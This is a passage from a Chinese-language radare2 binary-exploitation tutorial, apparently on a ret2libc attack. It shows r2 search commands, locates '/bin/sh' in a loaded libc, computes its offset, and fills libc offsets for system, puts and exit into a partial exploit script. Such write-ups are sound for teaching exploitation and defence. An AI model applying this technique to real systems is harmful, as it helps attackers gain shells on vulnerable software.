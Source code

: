 ```shell
| /o                  show offset of previous instruction
| /p patternsize      search for pattern of given size
| /P patternsize      search similar blocks
| /r[e] sym.printf    analyze opcode reference an offset (/re for esil)
| /R [?] [grepopcode] search for matching ROP gadgets, semicolon-separated
| /v[1248] value      look for an cfg.bigendian 32bit value
| /V[1248] min max    look for an cfg.bigendian 32bit value in range
| /w foo              search for wide string ‘f\0o\0o\0’
| /wi foo             search for wide string ignoring case ‘f\0o\0o\0’
| /x ff..33           search for hex string ignoring some nibbles
| /x ff0033           search for hex string
| /x ff43 ffd0        search for hexpair with mask
| /z min max          search for strings of given size
```

提供给我们了许多不同的方式。同时还发心`/R`能够帮助我们查找 ROP。可惜这篇文章里我们没有打算使用 ROP。但其他情况下，你们写利用脚本时一定很喜欢用它。

我们不需要任何花哨的东西，只用最简单的查找即可。在这之后，我们先找到当前*libc*载入的地址，然后计算出`/bin/sh`的偏移。

```shell
[0x080483d0]> / /bin/sh
Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0x8048000-0x8049000]
hits: 0
Searching 7 bytes in [0x8049000-0x804a000]
hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]
hits: 0
Searching 7 bytes in [0xffd2f000-0xffd50000]
hits: 0
0xf7700768 hit1_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

`r2`在内存中找到了`/bin/sh`。现在我们计算它相对*libc*基址的偏移：

```shell
[0x080483d0]> dmm~libc
0xf7599000 /usr/lib32/libc-2.25.so
[0x080483d0]> ?X 0xf7700768-0xf7599000
167768
```

我们发现`/bin/sh`相对*libc*基址的偏移为`0x167768`。我们把它填进脚本中，并且可以开始我们的最后一个步骤。

```python
...

# Offsets
offset_puts = 0x00062710
offset_system = 0x0003c060
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768

...
```
